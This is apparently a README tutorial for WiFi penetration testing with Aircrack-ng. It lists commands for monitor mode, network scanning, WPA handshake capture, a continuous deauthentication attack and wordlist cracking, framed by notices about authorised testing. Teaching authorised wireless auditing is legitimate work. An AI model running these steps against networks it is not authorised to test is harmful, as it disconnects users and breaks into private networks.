 # WiFi Penetration Testing with Aircrack-ng

This guide provides a step-by-step process for performing WiFi penetration testing using Aircrack-ng to capture and crack WPA/WPA2 handshakes.

## Prerequisites
- Linux system (Kali Linux recommended)
- WiFi adapter that supports monitor mode
- Aircrack-ng suite installed (`sudo apt install aircrack-ng`)
- Wordlist for password cracking

## Setup WiFi Adapter (Monitor Mode)

1. Check current mode:
   ```bash
   iwconfig
   ```
   (Look for mode=managed)

2. Kill interfering processes:
   ```bash
   sudo airmon-ng check kill
   ```

3. Start monitor mode:
   ```bash
   sudo airmon-ng start wlan0
   ```
   (Replace `wlan0` with your interface name)

4. Verify monitor mode:
   ```bash
   iwconfig
   ```
   (Should show mode=monitor and new interface name like wlan0mon)

## Scan for Nearby Networks

```bash
sudo airodump-ng wlan0mon
```
(Replace `wlan0mon` with your monitor interface)

Note down:
- BSSID (MAC address of target AP)
- CH (channel number)
- ESSID (network name)

## Capture Handshake

```bash
sudo airodump-ng --bssid <BSSID> -c <CH> -w <output_file> wlan0mon
```
Example:
```bash
sudo airodump-ng --bssid 00:11:22:33:44:55 -c 6 -w capture wlan0mon
```

This will create a `.cap` file. Wait until you see `[WPA handshake: <BSSID>]` in the top right corner.

## Accelerate Handshake Capture (Deauth Attack)

In a new terminal:
```bash
sudo aireplay-ng --deauth 0 -a <BSSID> -c <client_MAC> wlan0mon
```
(Use 0 for continuous deauth, or specify a number of packets)

## Check for Captured Handshake

```bash
ls
```
Look for `.cap` file (e.g., `capture-01.cap`)

## Crack the Handshake

```bash
aircrack-ng <capture_file.cap> -w <wordlist_path>
```
Example:
```bash
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

## Cleanup

1. Stop monitor mode:
   ```bash
   sudo airmon-ng stop wlan0mon
   ```

2. Restart network manager:
   ```bash
   sudo systemctl start NetworkManager
   ```

## Legal Disclaimer

This guide is for educational and authorized penetration testing purposes only. Unauthorized access to computer networks is illegal. Always obtain proper authorization before testing any network.

## Wordlists

Popular wordlists for password cracking:
- rockyou.txt (included in Kali Linux)
- SecLists (https://github.com/danielmiessler/SecLists)
- CrackStation wordlist (https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm)

  ## Legal & Ethical Notice
- This guide is for **educational purposes only**.
- Unauthorized WiFi hacking is **illegal** in most countries.
- Only test networks you own or have **explicit permission** to audit.
- The author is not responsible for misuse of this information.

Happy (ethical) hacking! 😊
